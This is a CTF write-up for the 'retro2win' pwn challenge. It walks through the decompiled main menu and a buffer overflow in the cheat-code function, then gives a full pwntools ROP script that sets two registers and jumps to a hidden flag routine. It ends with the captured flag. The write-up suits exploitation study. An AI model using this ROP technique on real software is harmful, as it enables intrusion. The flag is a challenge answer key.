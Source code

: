 Decompile we have the main function as follows:
```c
// local variable allocation has failed, the output may be wrong!
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h] BYREF

  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        show_main_menu(*(_QWORD *)&argc, argv, envp);
        argv = (const char **)&v4;
        *(_QWORD *)&argc = "%d";
        __isoc99_scanf("%d", &v4);
        getchar();
        if ( v4 != 2 )
          break;
        battle_dragon();
      }
      if ( v4 > 2 )
        break;
      if ( v4 != 1 )
        goto LABEL_12;
      explore_forest();
    }
    if ( v4 == 3 )
      break;
    if ( v4 == 1337 )
    {
      enter_cheatcode();
    }
    else
    {
LABEL_12:
      *(_QWORD *)&argc = "Invalid choice! Please select a valid option.";
      puts("Invalid choice! Please select a valid option.");
    }
  }
  puts("Quitting game...");
  return 0;
}
```
With option 2, we will call the **battle_dragon()** function:

![image](https://hackmd.io/_uploads/HyaBdqSMyg.png)

With options less than 2, we will call the function **explore_forest()**:

![image](https://hackmd.io/_uploads/SyzKO9HMkg.png)

With the option 1337, we call the function **enter_cheatcode()**:

![image](https://hackmd.io/_uploads/SykCO9SM1x.png)

We have a buffer overflow bug here.
In addition, we also have the function **cheat_mode()** to check the condition, if true it will call the flag:

![image](https://hackmd.io/_uploads/SJhgY5rMke.png)

But if checked in ida , we will see that a1 and a2 will get values ​​from the registers rdi and rsi, so we will try to change these 2 registers to satisfy the condition.
We will use some gadgets to change these 2 registers:

![image](https://hackmd.io/_uploads/B11295Szye.png)

Now we will find the return address offset of the function **enter_cheatcode()**:

![image](https://hackmd.io/_uploads/By8UjqrM1l.png)

So the offset will be 24.
We have the following script:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./retro2win_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("retro2win.ctf.intigriti.io", 1338)

    return r


def main():
    r = conn()
    # rbp - 0x60 = 0x7ffebdf10bf8:
    input()
    # Enter cheat code
    r.sendline(b'1337')
    cheat_mode = 0x0000000000400736
    pop_rdi = 0x00000000004009b3
    pop_rsi_r15 = 0x00000000004009b1
    payload =b'A'*24
    pause()
    # Control rdi and rsi register and return to cheatmode
    payload += p64(pop_rdi) + p64(0x2323232323232323) + p64(pop_rsi_r15) + p64(0x4242424242424242) + p64(0) + p64(cheat_mode)
    r.sendline(payload)
    pause()
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```

Run locally:
![image](https://hackmd.io/_uploads/B11oi5SMkl.png)
Run on server:
![image](https://hackmd.io/_uploads/rJiiicSGkg.png)
Flag: ```INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}```

